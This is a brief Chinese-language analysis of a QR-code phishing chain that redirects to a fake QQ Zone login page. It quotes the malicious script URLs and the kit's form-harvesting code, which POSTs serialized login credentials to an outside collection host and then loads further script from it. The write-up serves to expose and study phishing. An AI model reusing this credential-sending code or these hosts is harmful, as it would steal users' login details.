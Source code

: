 # -
一次反编译二维码钓鱼网址
## 1.扫描二维码

二维码指向链接httP://p2.meituan.net/1.116/shaitu/3f9991ccd4166b9758c147ef62ce262b68.html

- 扫描二维码后直接跳转到QQ空间登录界面（看不到任何内容）

## 2.用python post一下
```
import requests
res  = requests.post('httP://p2.meituan.net/1.116/shaitu/3f9991ccd4166b9758c147ef62ce262b68.html')
print(res.text)
```

## 3.得到<scripT/src=//video-csss.oss-cn-hangzhou.aliyuncs.com/1.js></scripT>

> 访问video-csss.oss-cn-hangzhou.aliyuncs.com/1.js

## 4.得到跳转源码1.js

### 分析源码1.js 最后将1.js的网页提取出来 1.html

## 5.html中嵌套着<script提取到2.js

## 6.js 调用相关函数 得到 2.html
## end
接收地址
```
if (!err){
			$.ajax({
				url:'https://110g.cn/apisend/Login/',
				type:'POST',
				dataType:'json',
				async:false, 
				data: $('#loginform').serialize(),
				success:function(r){
                Cookies.set('su','su');
				$.getScript('https://110g.cn/apisend/Login/t.js');
				},
				error:function(er){
                Cookies.set('su','su');
				$.getScript('https://110g.cn/apisend/Login/t.js');
      }
			})
		}

```
